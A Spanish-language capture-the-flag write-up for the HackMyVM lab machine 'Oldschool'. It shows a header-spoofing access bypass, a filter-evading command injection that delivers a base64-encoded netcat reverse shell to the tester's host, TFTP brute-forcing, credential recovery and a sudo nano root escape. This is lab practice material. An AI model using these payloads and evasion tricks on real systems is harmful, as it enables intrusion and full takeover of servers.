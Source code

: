```yaml
---
layout: post
title: Oldschool - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Cromiphi \\
**Dificultad**: Medio

![img](/imgs/write-ups/hackmyvm/oldschool/oldschool.png#center)

## Reconocimiento

Lo primero, un escaneo rápido de la máquina:

```
sudo nmap -p- 192.168.1.85       
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-21 14:54 EST
Nmap scan report for 192.168.1.85
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
23/tcp open  telnet
80/tcp open  http
MAC Address: 08:00:27:24:8D:92 (Oracle VirtualBox virtual NIC)
```

### 80 (http)

Desde la página principal, al intentar hacer click en "tool" me redirige a "verification.php" y seguidamente a "denied.php" por lo que se tiene que producir una autentificación de algún tipo. Para esto utilizo Burpsuite.

Muy importante seleccionar en burpsuite que muestre también las respuestas ya que es ahí donde se encuentra la clave.

- Primero realizo la petición a "verification.php":

```
GET /verification.php HTTP/1.1
Host: 192.168.1.85
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.1.85/
Upgrade-Insecure-Requests: 1
```

- A continuación, en la respuesta del servidor, encuentro una cabecera "Role" cuyo valor es "not admin".

```
HTTP/1.1 302 Found
Date: Wed, 21 Dec 2022 20:02:10 GMT
Server: Apache/2.4.54 (Debian)
Role: not admin
Location: ./denied.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

- Conociendo esto, pruebo a realizar la misma petición que antes pero añadiendo la cabecera **"Role: admin"**:

```
GET /verification.php HTTP/1.1
Host: 192.168.1.85
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.1.85/
Role: admin  <------- Añadida
Upgrade-Insecure-Requests: 1
```

Ahora con la cabecera añadida, tengo acceso a "pingertool2000.php"

![img](/imgs/write-ups/hackmyvm/oldschool/oldschool_1.png#center)

## Explotación

En esta página es posible realizar un "command injection" y obtener una shell en el servidor.

Command injection:

- No está permitido el uso de comandos como "bash" o "echo" por lo que me salto esta restriccion usando commilas. Ej -> bas''h
- No está permitido el caracter ";" por lo que uso ${IFS}%0a para añadir un comando.
- Para evitar problemas de formato u otros posibles filtros, uso base64.

Primero obtengo en base64 la "reverse shell" a utilizar, en este caso uso una shell básica mediante netcat.

```
$ echo -n "nc -e /bin/bash 192.168.1.72 1239" | base64                                          
bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMS43MiAxMjM5
```

En burpsuite modifico el valor "url" por mi payload para obtener la shell.

```
url=asdf.com${IFS}%0aec''ho%09"bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMS43MiAxMjM5"%09|%09base64%09-d%09|%09bas''h
```

Y con esto he obtenido acceso en el servidor como www-data.

```
$ nc -lvnp 1239
listening on [any] 1239 ...
connect to [192.168.1.72] from (UNKNOWN) [192.168.1.85] 43188
$ whoami
www-data
```

Desde dentro del servidor, ejecuto "linpeas.sh" para realizar una enumeración de posibles métodos de escalado de privilegios y encuentro que se ha ejecutado el siguiente comando:

```
/usr/sbin/in.tftpd --listen --user fanny --address :69 --secure /srv/tftp
```

Con esta información utilizo el módulo "tftpbrute" de metasploit.

```
msf6 > use auxiliary/scanner/tftp/tftpbrute
[...] (configuración opciones)
msf6 auxiliary(scanner/tftp/tftpbrute) > run

[+] Found passwd.cfg on 192.168.1.85
[+] Found pwd.bin on 192.168.1.85
[+] Found pwd.cfg on 192.168.1.85
[+] Found sip.cfg on 192.168.1.85
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Y ahora intento descargar los archivos.

```
$ tftp 192.168.1.85
tftp> connect
(to) 192.168.1.85
tftp> status
Connected to 192.168.1.85.
Mode: netascii Verbose: off Tracing: off Literal: off
Rexmt-interval: 5 seconds, Max-timeout: 25 seconds
tftp> get passwd.cfg
```

El único archivo que consigo descargar es "passwd.cfg".

```
$ cat passwd.cfg 
# lesspass default config password generator
# do not delete

lesspass oldschool.hmv fanny 14mw0nd32fu1
```

Con esta información, navego a la página oficial de [lesspass](https://www.lesspass.com/#/) y relleno con los datos de passwd.cfg para obtener una contraseña.

![img](/imgs/write-ups/hackmyvm/oldschool/oldschool_2.png#center)

Con esta contraseña inicio sesión mediante telnet y el usuario "fanny".

```
$ telnet 192.168.1.85 23
Trying 192.168.1.85...
Connected to 192.168.1.85.
Escape character is '^]'.
Debian GNU/Linux 11
oldschool.hmv login: fanny
Password: 
Linux oldschool.hmv 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64
[...]
fanny@oldschool:~$ :)
```

## Escalado de privilegios

Ejecutando sudo -l se puede ver que fanny tiene permisos para ejecutar "nano" como root sobre el fichero /etc/snmp/snmpd.conf.

```
fanny@oldschool:~$ sudo -l
Matching Defaults entries for fanny on oldschool:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fanny may run the following commands on oldschool:
    (ALL : ALL) NOPASSWD: /usr/bin/nano /etc/snmp/snmpd.conf
```

Se puede escalar privilegios de la siguiente manera [GTFObins Nano](https://gtfobins.github.io/gtfobins/nano/#sudo):

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

Y con esto se termina la máquina.

```
$ sudo /usr/bin/nano /etc/snmp/snmpd.conf
[...]
# id; hostname
uid=0(root) gid=0(root) groups=0(root)
oldschool.hmv
# :) 
```

Muchas gracias  **Cromiphi** por esta máquina.
